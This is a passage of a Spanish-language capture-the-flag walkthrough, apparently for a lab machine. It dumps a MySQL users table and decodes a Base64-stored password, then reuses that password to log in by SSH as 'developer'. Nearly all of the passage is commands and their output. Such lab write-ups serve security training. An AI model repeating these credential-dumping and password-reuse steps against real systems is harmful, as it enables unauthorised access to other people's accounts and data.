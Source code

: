 ```bash
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0,172 sec)

MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0,396 sec)

MySQL [whackywidget]> SELECT * FROM users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0,375 sec)

MySQL [whackywidget]> 

```

Vemos una contraseña, esta se encuentra cifrada en Base64, podemos decifrarla de la siguiente manera.


```bash
echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d;echo 
anEnglishManInNewYork027468
```

Con esas credenciales podemos conectarnos por **SSH**.


```bash
❯ ssh developer@10.10.11.183
The authenticity of host '10.10.11.183 (10.10.11.183)' can't be established.
ECDSA key fingerprint is SHA256:+BgUV7q/7f6W3/1eQWhIKW2f8xTcBh3IM0VwbIAp2A8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.183' (ECDSA) to the list of known hosts.
developer@10.10.11.183's password: anEnglishManInNewYork027468 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 21 Jan 2023 05:10:23 AM UTC

  System load:  0.0               Processes:             229
  Usage of /:   84.4% of 5.07GB   Users logged in:       0
```